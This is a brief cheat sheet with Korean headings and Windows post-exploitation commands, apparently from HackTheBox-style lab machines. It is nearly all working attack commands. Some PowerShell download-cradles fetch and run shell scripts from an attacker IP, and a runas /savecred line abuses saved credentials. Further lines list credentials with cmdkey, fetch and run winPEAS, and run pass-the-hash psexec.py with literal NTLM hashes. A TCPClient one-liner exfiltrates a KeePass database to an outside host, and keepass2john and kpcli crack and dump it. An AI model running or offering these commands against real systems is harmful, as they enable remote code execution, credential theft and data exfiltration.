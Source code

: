 ### 관리자 쉘 연결
```
runas /user:ACCESS\Administrator /savecred "powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.34/admin.ps1')"
```

### php 서버 실행 & 파일 다운
```
php -S 0.0.0.0:80
```
```
START /B "" powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.34/shell.ps1')
```

### cmdkey
```
cmdkey /list
```

### winpeas & 다운로드
```
python3 -m http.server 4444
Invoke-WebRequest -Uri http://10.10.14.26:4444/winPEASx64.exe -OutFile winpeas.exe
.\winpeas.exe
```

### psexec.py
```
psexec.py pinocure.com/administrator@10.10.10.175 -hashes 823452073d75b9d1cf70ebdf86c7f98e:823452073d75b9d1cf70ebdf86c7f98e
psexec.py jeeves/Administrator@10.10.10.63 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

### kdbx
```
# 파일 칼리로 다운
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.26',4445);$stream = $client.GetStream();$file = [System.IO.File]::ReadAllBytes('C:\Users\kohsuke\Documents\CEH.kdbx');$stream.Write($file,0,$file.Length);$stream.Close();$client.Close()"

# CEH.kdbx 분석
keepass2john CEH.kdbx > CEH.kdbx.hash
cat CEH.kdbx.hash
```

### kpcli
```
kpcli --kdb CEH.kdbx

find .
show -f 0
show -f 2  
```
